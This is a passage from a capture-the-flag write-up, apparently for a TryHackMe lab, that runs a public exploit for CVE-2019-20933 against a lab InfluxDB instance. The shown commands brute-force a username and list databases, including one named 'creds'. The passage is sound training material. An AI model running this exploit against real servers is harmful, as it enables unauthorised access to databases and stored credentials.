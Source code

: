 
## CVE-2019-20933

A quick google search leads us to some exploit code on Github: https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933

Looking at the code, it appears to bruteforce usernames given a wordlist, then drops into a scuffed shell to interact with the db.

Let's run the exploit:

```
kali@kali:~/Desktop/thm/sweettoothinc/InfluxDB-Exploit-CVE-2019-20933$ echo "o5yY6yya" > username.txt
kali@kali:~/Desktop/thm/sweettoothinc/InfluxDB-Exploit-CVE-2019-20933$ python3 __main__.py 
  _____        __ _            _____  ____    ______            _       _ _   
 |_   _|      / _| |          |  __ \|  _ \  |  ____|          | |     (_) |                                     
   | |  _ __ | |_| |_   ___  __ |  | | |_) | | |__  __  ___ __ | | ___  _| |_                                    
   | | | '_ \|  _| | | | \ \/ / |  | |  _ <  |  __| \ \/ / '_ \| |/ _ \| | __|                                   
  _| |_| | | | | | | |_| |>  <| |__| | |_) | | |____ >  <| |_) | | (_) | | |_                                    
 |_____|_| |_|_| |_|\__,_/_/\_\_____/|____/  |______/_/\_\ .__/|_|\___/|_|\__|                                   
                                                         | |                                                     
                                                         |_|                                                     
CVE-2019-20933

Insert ip host (default localhost): 10.10.114.8
Insert port (default 8086): 
Insert influxdb user (wordlist path to bruteforce username): username.txt

Start username bruteforce
[v] o5yY6yya

Host vulnerable !!!
Databases list:

1) creds
2) docker
3) tanks
4) mixer
5) _internal

Insert database name (exit to close): 
```

I wasn't sure how InfluxDB  works, so I followed the official schema guide: https://docs.influxdata.com/influxdb/v1.8/query_language/explore-schema/
